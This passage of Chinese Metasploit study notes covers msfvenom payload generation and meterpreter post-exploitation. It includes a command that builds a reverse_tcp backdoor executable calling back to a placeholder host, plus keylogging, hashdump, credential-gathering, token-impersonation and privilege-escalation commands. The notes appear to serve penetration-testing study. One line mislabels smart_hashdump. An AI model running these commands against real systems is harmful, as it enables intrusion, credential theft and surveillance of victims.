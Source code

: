         end
        ```
        * `payload.raw`: 获取payload的原始字节
    
* 接口
    * 字符相关
        * `MSF::Exploit#pattern_create(<长度>)`: 生成用于定位的字符串. (实际调用了`Rex::Text.pattern_create`)
    * Rex模块(Ruby Extension): 
        * 其中包含了msf开发中所需要的功能模块
            * 大部分任务的基本库
            * 处理socket, 协议, 文本转换等
            * SSL, SMB, HTTP, XOR, Base64, Unicode
        * `Rex::Assembly::Nasm`
            * `.assemble(assembly, bits = 32)`: 将汇编代码转为机器码
            * `.disassemble(raw, bits = 32)`: 反汇编. 可用`puts`打印该结果, 显示更美观. 

* msfvenom: 整合了msfpayload和msfencode
    * `--list all`: 列出payloads, encoders, nops, platforms, archs, encrypt, formats等所有项的可用选项
    * `-x a.exe`: 以'a.exe'为可执行文件载荷的模板
    * `-b '\x00'`: 指定'\x00'为坏字符(会被编码器消除)
    * `-n <长度>`: 添加nop雪橇
    * `--payload windows/exec CMD=calc.exe 0`: 生成载荷, 'windows/exec'是载荷原型, 后面'CMD=calc.exe'是给参数'CMD'设置值. 0表示直接生成字符串, 可以选'C'等, 得到某一编程语言形式的载荷.

* 后渗透模块
    * `meterpreter`:
        * metasploit的一类载荷, 如`windows/meterpreter/reverse_tcp`
        * 使用
            * 通过`msfvenom`生成一个回连马: `msfvenom -payload windows/meterpreter/meterpreter_reverse_tcp lhost="x.x.x.x" lport=4444 -f exe -o re.exe` (注意设置好回连的地址和端口)
            * 把马`re.exe`放到目标机运行. 
            * `msfconsole`
                * `use exploit/multi/handler`
                * 设置`LHOST`, `LPORT`
                * `run`
        * 命令
            * `shell`: 进入目标机器的cmd. 
            * `screenshot`: 截屏
            * `sysinfo`: 获取系统运行的平台
            * `ps`: 进程列表
            * `migrate <pid>`: 将会话迁移到某进程空间
            * `run post/windows/capture/keylog_recorder`: 运行键盘记录器
            * `use priv`: 运行在特权账号上
            * `execute -f <文件>`: 在目标机器上运行程序
            * `route`: 查看路由
            * `search -d d:\\ -f *.txt`: 在D盘搜索txt文件
            * `download <文件> <本地目录>`: 从目标机上下载文件到攻击机
            * `upload <文件> <目标机目录>`: 向目标机上传文件
            * `portfwd add -l <本机端口> -r <目标ip> -p <目标端口>`: 将目标机端口映射到本机来
            * 列出会话令牌: 
                1. `use incognito`
                2. `list_tokens -u`
            * `impersonate_toke "NT AUTHORITY\SYSTEM"`: 冒用`SYSTEM`的令牌. 
            * `getuid`: 获取当前用户信息
            * `getsystem`: 提权
            * `run windows/gather/credentials/windows_autologin`: 抓取自动登录的账号密码
            * `run post/windows/gather/smart_hashdump`: 抓取自动登录的账号密码
        * 解决cmd乱码: 进入cmd后, 执行`chcp 65001`, 设置终端编码为`utf-8`. 
    * `post/windows/gather/enum_applications`
